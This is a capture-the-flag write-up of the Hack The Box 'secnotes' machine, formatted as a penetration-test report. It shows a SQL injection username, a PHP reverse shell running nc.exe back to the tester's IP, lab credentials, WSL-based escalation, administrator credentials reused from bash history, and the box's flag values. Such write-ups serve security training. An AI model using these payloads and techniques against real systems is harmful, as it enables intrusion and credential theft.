

---
title: "Hack The Box: secnotes Report"
author: ["gndpwnd"]
date: "05/06/22"
subject: "Markdown"
keywords: [Markdown, Example]
subtitle: "Box Report"
lang: "en"
titlepage: true
titlepage-color: "1E90FF"
titlepage-text-color: "FFFAFA"
titlepage-rule-color: "FFFAFA"
titlepage-rule-height: 2
book: true
classoption: oneside
code-block-font-size: \scriptsize
---
# Hack the Box: secnotes Report

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the secnotes machine is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the secnotes machine.

The specific IP address was:

- 10.10.10.97

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to the secnotes machine.


\newpage

### System IP: 10.10.10.97

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.10.97      | **TCP: 80,8808,445** \ **UDP: **


\newpage

**Nmap Scan Results:**

Service Scan:

```bash
nmap -Pn -vvv -p 80,8808,445 -sC -sV -oN /HTB-boxes/secnotes/1-recon/nmap/ip_tcp.md 10.10.10.97
```

Notable Output:

```txt
80/tcp   open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

\newpage

#### Initial Access

**Vulnerability Exploited:** SQLI

**Vulnerability Explanation:**

Put simply, a SQL injection is when criminal hackers enter malicious commands into web forms, like the search field, login field, or URL, of an unsecure website to gain unauthorized access to sensitive and valuable data.

Reference: *https://www.malwarebytes.com/sql-injection*

**Vulnerability Fix:**

The only sure way to prevent SQL Injection attacks is input validation and parametrized queries including prepared statements. The application code should never use the input directly. The developer must sanitize all input, not only web form inputs such as login forms. They must remove potential malicious code elements such as single quotes. It is also a good idea to turn off the visibility of database errors on your production sites. Database errors can be used with SQL Injection to gain information about your database.

Reference: *https://www.acunetix.com/websitesecurity/sql-injection/*

**Severity:** Critical


\newpage

**Exploit Code:**

After enumerating the web server on port 80, we find that usernames are reflected. We can exploit this by making a new user with the following name:

```txt
' or '1'='1
```

We can register a new user using this form:

```txt
http://10.10.10.97/register.php
```

We can now see information on the home screen:


We can see user credentials under the *new site* note:



Now we can login to the smb server on port 445.

Share name to connect to: 

```txt
\\secnotes.htb\new-site
```

Credentials:

```txt
user: tyler 
pass: 92g!mA8BGjOirkL%OG*&
```

Command to run:

```txt
smbclient \\\\10.10.10.97\\new-site -U tyler
```

Now we can start on a reverse shell to have better control over the machine.

Create a php file with the following code:

```txt
<?php
system('nc.exe -e cmd.exe 10.10.14.4 4321')
?>
```

 - change the IP address to match your attacking machine

on your attacker machine, download a static netcat binary for windows:

```txt
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe
```

we can upload the reverse shell payload and the static binary to the smb server using the following commands:

```txt
put revshell.php
put nc.exe
```


we get a shell:


\newpage

**Local.txt Proof Screenshot**


**Local.txt Contents**

```txt
41de0a5e07b2275bf24c378d2fc117f7
```

\newpage

#### Privilege Escalation

**Vulnerability Exploited:** WSL permissions & Command History

**Vulnerability Explanation:**

An attacker can access the Ubuntu installation on the Windows Subsystem for Linux and access. In turn, an attacker can access a command history detailing a login to a service using the credentials for the administrator user on the machine.

**Vulnerability Fix:**

Do not use the Windows Subsystem for linux as the administrator user.

**Severity:** Critical

\newpage

**Exploit Code:**

There is a link file for bash:


We can search for the *bash.exe* file:

```txt
dir "bash.exe" /s
```

The file exists in the following directory:

```txt
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5
```

We can see that WSL is installed on the system, and there exists an installation of a Ubuntu image.


spawn a shell in WSL:

```txt
bash.exe -i
```

We are root in WSL:


**Get Admin**

We can see a revealing command in the root user's bash history:


```txt
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
```

We can modify the command to login as *administrator* remotely

```txt
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
```


Now we can download the *root.txt* file with the following commands:

```txt
cd Users\Administrator\Desktop
get root.txt
```

\newpage

**Proof Screenshot Here:**


**Proof.txt Contents:**

```txt
c93668bc8538fd2968812db50866b618
```


\newpage

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the secnotes machine was completed, I removed all user accounts, passwords, and malicious codes used during the penetration test.
 should not have to remove any user accounts or services from the system.


\newpage

# Appendix - Additional Items

## Appendix - Proof and Local Contents:

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
10.10.10.97   |  41de0a5e07b2275bf24c378d2fc117f7 | c93668bc8538fd2968812db50866b618


\newpage
		
